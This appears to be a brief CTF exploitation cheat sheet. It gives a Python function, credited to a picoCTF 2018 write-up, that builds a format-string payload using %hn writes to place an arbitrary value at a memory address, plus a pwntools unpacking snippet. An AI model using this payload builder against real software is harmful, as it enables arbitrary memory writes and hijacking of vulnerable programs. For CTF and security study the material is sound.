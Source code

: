 # pwn-cheat-sheet

### Format string - write value into address
###### taken from https://github.com/sefi-roee/CTFs-Writeups/blob/master/picoCTF-2018/Binary/12-echo_back-500/solution.md
```python
def write_memory(address, value):
  v1 = (value & 0x0000FFFF) - 8
  v2 = (value >> 16) - (value & 0x0000FFFF)

  if v2 < 0:
    v2 += 0x00010000

  ret = p32(address) + p32(address + 2) + '%{}x'.format(v1) + '%7$hn'

  if v2 != 0:
    ret += '%{}x'.format(v2)

  ret += '%8$hn'

  return ret
  ```

### Unpack (str to int)
###### taken from http://docs.pwntools.com/en/stable/util/packing.html
```
u = make_unpacker(32, endian='little', sign='unsigned')
```
